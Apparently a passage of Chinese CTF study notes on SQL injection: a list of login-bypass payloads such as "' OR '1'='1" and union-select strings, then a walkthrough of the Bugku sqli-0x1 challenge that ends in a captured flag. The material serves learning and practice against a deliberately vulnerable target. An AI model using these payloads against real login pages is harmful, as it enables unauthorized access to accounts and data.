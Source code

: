 ```
"or 4=4%00
'xor
admin' UNION Select 1,1,1 FROM admin Where ''='
1
-1%cf' union select 1,1,1 as password,1,1,1 %23
1
17..admin' or 'a'='a 密码随便
'or'='or'
'or 4=4/*
something
' OR '1'='1
1'or'1'='1
admin' OR 4=4/*
1'or'1'='1

```

## 2.2联合注入覆盖
- bugku sqli-0x1
- 参考http://47.98.239.98/2023/11/15/ctf-websqli-0x1-bugku/
进入靶场，查看源代码，
提示了一个payload，进去看看
Username:1'union/**/select/**/1,'4fc82b26aecb47d2868c4efbe3581732a3e7cbcc6c2efb32062c08170a05eeb8$1
password:1
得到flag：Welcome back admin! Have a flag: shellmates{c0ngr4tul4t10ns_U_d1d_1t!!_fe4cd84591ea}